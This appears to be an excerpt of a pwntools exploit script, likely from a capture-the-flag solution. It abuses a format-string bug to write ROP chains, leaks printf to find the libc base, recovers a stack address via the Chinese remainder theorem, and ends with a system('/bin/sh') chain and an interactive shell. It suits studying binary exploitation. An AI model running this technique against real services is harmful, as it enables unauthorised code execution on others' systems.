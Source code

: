 ```python
writes_l = [
  rop.find_gadget(["ret"])[0], # stack alignment
  rop.find_gadget(["pop rdi", "ret"])[0],
  elf.got["printf"],
  elf.symbols["printf"],
  rop.find_gadget(["ret"])[0], # stack alignment
  elf.symbols["main"],
]

writes = {}

# format it in a way that pwntools understands, also get the offsets right
for n, addr in enumerate(writes_l):
  writes[buf_addr+540+n*8] = addr

payload = fmtstr_payload(8, writes)

# send our payload and recieve our leaks
conn.sendline(payload)
printf = u64(conn.recvuntil("Welcome")[-13:-7] + b"\x00\x00")
log.info("printf(): " + hex(printf))
libc.address = printf - libc.symbols["printf"]
log.info("libc base: " + hex(libc.address))

# do it all over again
remainders = []
for prime in primes:
  remainders.append(get_remainder(prime))

res = crt(primes, remainders)

buf2_addr = [res[0]+res[1]*n for n in range(1, 1000) if hex(res[0]+res[1]*n)[0:4]=="0x7f" and len(hex(res[0]+res[1]*n))==14][0]
log.info("Second stack leak: " + hex(buf2_addr))
conn.recvline()

# system("/bin/sh")
writes_l = [
  rop.find_gadget(["ret"])[0], # stack alignment
  rop.find_gadget(["pop rdi", "ret"])[0],
  next(libc.search(b"/bin/sh")),
  libc.symbols["system"]
]

writes = {}

for n, addr in enumerate(writes_l):
  writes[buf2_addr+540+n*8] = addr

print(len(payload))
payload = fmtstr_payload(8, writes)
conn.sendline(payload)

# clean up output
conn.sendline("echo end")
conn.recvuntil("end\n")

conn.interactive()
```